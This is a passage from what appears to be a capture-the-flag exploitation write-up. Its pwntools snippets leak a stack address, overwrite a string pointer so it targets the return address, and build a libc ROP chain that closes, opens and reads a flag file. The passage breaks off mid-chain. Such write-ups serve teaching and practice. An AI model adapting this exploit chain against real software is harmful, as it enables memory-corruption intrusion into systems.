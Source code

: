 The above will leak libc based on the stack diagram above (Analysis section).

> Index `0` string starts at `+0x0010` (see stack diagram above) with the leak at `+0x0018`, the difference is `8`, so send `8` bytes (e.g. above `7` + `\n` (`sendlineafter`)), then just `3. Print string`.

```python
p.sendlineafter(b'>> ',b'2')
p.sendlineafter(b'index:\n',b'0')
p.sendlineafter(b'string:\n',23 * b'A')
p.sendlineafter(b'>> ',b'3')
p.sendlineafter(b'index:\n',b'0')
p.recvline()
stack_leak = u64(p.recv(6) + b'\0\0')
log.info('stack_leak: {x}'.format(x = hex(stack_leak)))
return_address = stack_leak + 8
log.info('return_address: {x}'.format(x = hex(return_address)))
```

Same logic as the previous leak, but this time for the stack to then compute the location of the return address on the stack.  See Analysis section above.

```python
p.sendlineafter(b'>> ',b'1')
p.sendlineafter(b'size:\n',b'0')
p.sendlineafter(b'index:\n',b'1')
p.sendlineafter(b'string:\n',0xa0 * b'A' + p64(return_address))
```

Use the index `1` string (the one with zero length), to overwrite the pointer to string `0` (`+0x00a0`) to point to the return address on the stack.

```python
pop_rax = libc.search(asm('pop rax; ret')).__next__()
pop_rdi = libc.search(asm('pop rdi; ret')).__next__()
pop_rsi = libc.search(asm('pop rsi; ret')).__next__()
pop_rax_rdx_rbx = libc.search(asm('pop rax; pop rdx; pop rbx; ret')).__next__()
syscall = libc.search(asm('syscall; ret')).__next__()

flag_offset = 0x100
payload = b''

# close
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(constants.SYS_close)
payload += p64(syscall)

# open
payload += p64(pop_rdi)
payload += p64(return_address + flag_offset)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rax_rdx_rbx)
payload += p64(constants.SYS_open)
payload += p64(0)
payload += p64(0)
payload += p64(syscall)

# read
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(return_address + flag_offset)
payload += p64(pop_rax_rdx_rbx)
payload += p64(constants.SYS_read)
```